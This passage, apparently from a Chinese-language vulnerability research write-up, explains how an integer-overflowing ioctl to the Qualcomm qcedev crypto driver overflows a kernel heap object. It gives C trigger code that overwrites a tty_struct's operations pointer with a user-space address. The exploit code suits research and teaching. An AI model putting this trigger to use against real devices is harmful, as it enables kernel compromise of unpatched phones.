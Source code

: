 在我做利用的设备里，这个结构是从 kmalloc-4096 堆里分配的，其偏移 24Byte 的地方是一个struct tty_operations的指针，我们溢出后重写这个结构体，用一个用户态地址覆盖这个指针。

```
#define TTY_MAGIC               0x5401
void trigger(int fd)
`{`

#define SIZE 632 // SIZE = sizeof(struct tty_struct)

        int ret, cmd, i;
        struct  qcedev_sha_op_req params;
        int *magic;
        unsigned long * ttydriver;
        unsigned long * ttyops;

        memset(&amp;params, 0, sizeof(params));
        params.entries = 9;
        params.data_len = SIZE;
        params.authklen = 16;
        params.authkey = &amp;trigger_buf[0];
        params.alg = QCEDEV_ALG_AES_CMAC;

// when tty_struct coming from kmalloc-4096
        magic =(int *) &amp;trigger_buf[4096];
        *magic = TTY_MAGIC;
        ttydriver = (unsigned long*)&amp;trigger_buf[4112];
        *ttydriver = &amp;trigger_buf[0];
        ttyops = (unsigned long*)&amp;trigger_buf[4120];
        *ttyops = fake_ptm_fops;
        params.data[0].len = 4128;
        params.data[0].vaddr = &amp;trigger_buf[0];
        params.data[1].len = 536867423 ;
        params.data[1].vaddr = NULL;
        for (i = 2; i &lt; params.entries; i++) `{`
                params.data[i].len = 0x1fffffff;
                params.data[i].vaddr = NULL;
        `}`

        cmd = QCEDEV_IOCTL_SHA_UPDATE_REQ;
        ret = ioctl(fd, cmd, &amp;params);
        if(ret&lt;0) `{`
                printf("[-] ioctl fail %sn",strerror(errno));
                return;
        `}`
        printf("[+] succ triggern");
`}`
```

4128 + 536867423 + 7 * 0x1fffffff = 632

溢出的方法如上，我们让 entry 的数目为 9 个，第一个长度为 4128, 第二个为 536867423， 其他7个为0x1fffffff
